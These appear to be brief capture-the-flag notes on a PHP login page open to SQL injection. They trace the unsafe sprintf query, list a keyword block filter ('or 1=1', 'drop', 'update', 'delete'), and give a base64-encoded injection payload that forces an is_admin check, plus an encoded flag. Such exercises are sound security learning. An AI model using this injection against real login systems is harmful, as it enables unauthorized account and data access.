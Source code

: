 # key #
1. trace code 
	1. <?php if($user->is_admin) printf("<code>%s</code>, %s", htmlentities($flag1), $where_is_flag2); ?>
	2. $user = $query->fetchObject();
	3. $query = $db->query($sql);
	4. $sql = sprintf("SELECT * FROM `user` WHERE `user` = '%s' AND `password` = '%s'", $_POST['name'], $_POST['password']);	
2. function safe_filter($str)
	strstr  'or 1=1' || 'drop' || 'update' || 'delete'
	str_replace("'", "\\'", $str)
3. name=guest&password=guest
4. <!-- debug: -->
5. bmFtZT1udWxsJnBhc3N3b3JkPVwnIG9yIGBpc19hZG1pbmA9dHJ1ZTstLQ==
6. RkxBR3tcJyBVTklPTiBTRUxFQ1QgIkkgS25vdyBTUUwgSW5qZWN0aW9uIiAjfQ==
